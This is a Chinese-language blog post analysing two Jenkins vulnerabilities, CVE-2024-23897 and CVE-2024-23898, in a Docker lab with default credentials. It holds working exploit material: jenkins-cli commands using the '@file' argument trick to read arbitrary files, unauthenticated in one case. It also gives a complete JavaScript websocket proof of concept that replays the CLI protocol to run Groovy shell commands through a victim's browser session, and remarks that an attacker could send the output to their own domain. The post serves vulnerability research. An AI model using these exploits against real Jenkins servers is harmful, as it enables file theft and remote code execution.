

# CVE-2024-23897&&CVE-2024-23898 分析

原创 flowerwind

[↓↓↓](javascript:)  
  
长个新的脑袋  
  
[↑↑↑](javascript:)

*2024-01-26 14:41* *发表于江苏*

### 环境搭建

直接使用 docker 环境搭建即可

```plain
docker pull bitnami/jenkins:2.426.2-debian-11-r3
docker run  -e "JAVA_OPTS=-agentlib:jdwp=transport=dt_socket,server=y,suspend=n,address=0.0.0.0:5005" -d --name jenkins -p 8081:8080 -p 8777:5005 bitnami/jenkins:2.426.2-debian-11-r3
```

管理员账号密码为:user/bitnami

### 漏洞分析

#### CVE-2024-23897

通过官网通告了解到问题出在 args4j 库解析参数时会把@后的字符串作为文件名去读取文件，并且此功能默认启用


从官方手册了解到 jenkins 的 cli 用法如下


客户端从自身搭建的 jenkins 拼接/jnlpJars/jenkins-cli.jar 即可下载


随便找个官方的测试命令测试可用性


简单了解了 jenkins 客户端的用法后就可以开始看补丁了

https://github.com/jenkinsci/jenkins/commit/554f03782057c499c49bbb06575f0d28b5200edb

核心改动就是添加了一行

```plain
ParserProperties properties = ParserProperties.defaults().withAtSyntax(ALLOW_AT_SYNTAX);
```


把断点打在 hudson.cli.CLICommand 的 getCmdLineParser 上


运行命令

```plain
java -jar jenkins-cli.jar -s http://localhost:8081/ -auth user:bitnami -webSocket who-am-i
```


继续向下走，到了解析命令行参数位置


if 这里的判断代码和修复代码部分有点关联，修复部分的代码应该就是为了防止进入这个逻辑的。getAtSyntax 默认是 true 的，因此我们进入跟入 if 逻辑中

```plain
this.parserProperties.getAtSyntax()
```


发现取了@后面的字符串作为文件名读取后作为 result 返回


我们在 docker 中创建一个/tmp/1.txt 文件


输入如下命令

```plain
java -jar jenkins-cli.jar -s http://localhost:8081/ -auth user:bitnami -webSocket who-am-i @/tmp/1.txt
```

再次进行调试，发现会把/tmp/1.txt 内容读取出来


再接着向下看，读取出来的内容作为异常抛了出来，从而达到了任意文件读取


后面发现把-auth 删除发现也可以进入命令行解析流程，触发漏洞。无权限即可文件读取

```plain
java -jar jenkins-cli.jar  -s http://localhost:8081/ -http who-am-i @/tmp/1.txt
```


#### CVE-2024-23898

看官网通报，该漏洞为一个 websocket 的 CSRF 漏洞，在某些情况下能 RCE，因为之前没学习过 websocket 的 CSRF 特意复现了下这个漏洞


不论是什么的 CSRF，CSRF 的核心就是利用别人的 cookie 去请求这个网站的接口完成一部分操作，而 Jenkins 的 websocket 接口没有校验 Origin，也没有 CSRF 的 token，因此造成了 CSRF。从修复可以看出来，后面版本增加了 Origin。

https://github.com/jenkinsci/jenkins/commit/de450967f38398169650b55c002f1229a3fcdb1b


官方对于这个漏洞分了三种情况

##### 第一种情况

匿名攻击者没有任何权限，但是被 CSRF 攻击的 Jenkins 用户用的浏览器 SameSitecookie 的属性为 Lax，Lax 解释如下


根据官方通告，最新的 Chrome 等浏览器默认就有 Lax 属性


如果 Jenkins 用户用的浏览器 SameSitecookie 的属性为 Lax，那么攻击者是调用不到他的 Cookie 的，就没办法用他的权限去请求 Websocket，所以这时候请求的 websocket 只能是匿名的。匿名权限能调用的 Jenkins Cli 命令有 who-am-i，可以列出 Jenkins 中匿名用户的有限信息

总结一下，这个没啥用

##### 第二种情况

匿名用户拥有权限，在我理解看来，匿名用户即然都拥有权限了，又何必再去搞 CSRF 呢。我看来也是扯淡的一种情况。

##### 第三种情况

这个被攻击的 Jenkins 用户的浏览器 SameSiteCookie 属性默认不是 Lax，这种情况下会被 CSRF 影响，攻击者在跨站点时可以调用被害者的 Cookie 去像 Jenkins 的 websocket 发送请求。如果这个被害者有执行 groovy 权限的话，甚至能代码执行。这种情况应该是大部分人被 Jenkins 新漏洞唬到到，想去分析这个漏洞的原因吧。

通过对官方文档的查找，我找到了如何通过 Jenkins Cli 去执行 groovy 代码，命令如下

```plain
java  -Dhttp.proxyHost=127.0.0.1 -Dhttp.proxyPort=9999  -jar jenkins-cli.jar  -s http://172.16.11.1:8081/ -webSocket -auth user:bitnami groovy = < 1.txt
```

其中的 -Dhttp.proxyHost=127.0.0.1 -Dhttp.proxyPort=9999 是我为了抓包，不抓包的话可以删掉。1.txt 中放 groovy 代码即可。


这里用的 user 用户是有 groovy 执行权限的。

下面我们就要制作一个 html 页面，其中包含了一段 js，js 的功能是向 Jenkins 发送 websocket 数据包，来模拟我们用 java -jar jenkins-sli.jar 发出的数据包。只要用 js 模拟的数据包和我们上面命令产生的数据包一样。那么当 user 用户访问到我们搭建的恶意页面，就可以通过他的 Cookie 发送请求给 websocket，进而触发 Groovy 代码执行了。

通过抓 jar 发出的流量总共发现了 6-7 个请求包，就会收到执行结果的返回包了





返回包


我们把这些流量用 js 模拟即可

```plain


  // WebSocket 的 URL，通常以 "ws://" 或 "wss://" 开头
var socketUrl = "ws://172.16.11.1:8081/cli/ws/";

// 创建 WebSocket 实例
var socket = new WebSocket(socketUrl);

// 监听连接建立事件
socket.addEventListener("open", (event) => {
    var goovyArray = new Uint8Array([0x00,0x00,0x06]);
    var groovyStrArray = new TextEncoder().encode("groovy");
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

    var goovyArray = new Uint8Array([0x00,0x00,0x01]);
    var groovyStrArray = new TextEncoder().encode("=");
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

    var goovyArray = new Uint8Array([0x02,0x00,0x05]);
    var groovyStrArray = new TextEncoder().encode("UTF-8");
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

    var goovyArray = new Uint8Array([0x01,0x00,0x0b]);
    var groovyStrArray = new TextEncoder().encode("zh_CN_#Hans");
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

     var goovyArray = new Uint8Array([0x03]);
    socket.send(goovyArray);

    var goovyArray = new Uint8Array([0x05]);
    var groovyStrArray = new TextEncoder().encode(`def command = "ls -l"

def process = command.execute()

process.waitFor()

def output = process.text

def exitCode = process.exitValue()

println "Command Output:$output"
println "Exit Code: $exitCode"

`);
    var groovyCombinedArray = new Uint8Array(goovyArray.length + groovyStrArray.length);
    groovyCombinedArray.set(goovyArray, 0);
    groovyCombinedArray.set(groovyStrArray, goovyArray.length);
    socket.send(groovyCombinedArray);

var goovyArray = new Uint8Array([0x06]);
    socket.send(goovyArray);

});


// 监听连接关闭事件
socket.addEventListener("close", (event) => {
    console.log("WebSocket 连接已关闭");
});


  socket.onmessage = function(event) {
  // 创建一个 FileReader 实例
var reader = new FileReader();

// 设置 FileReader 的 onload 事件处理程序，当读取操作完成时会调用这个处理程序
reader.onload = function(event) {
  // 事件的 result 属性包含了文件的内容
  const content = event.target.result;
  console.log(content); // 输出内容
};

// 使用 readAsText 方法读取 Blob 中的内容，指定编码为 UTF-8
reader.readAsText(event.data, 'UTF-8');
  };

// 监听发生错误事件
socket.addEventListener("error", (event) => {
    console.error("WebSocket 发生错误", event);
});


```

在浏览器的控制台运行了下，js 里面的写的是直接 console 输出，但如果是 csrf 的话，攻击者把这个内容发到自己的域名即可。


漏洞分析到这里就差不多了

#### 总结

两个比较有意思的漏洞，读文件哪里以意想不到的方式传参被读取，又以意想不到的方式返回了读取内容。websocket csrf 这个主要重温了下 csrf 漏洞，很久没搞过了，还是有点意思的。
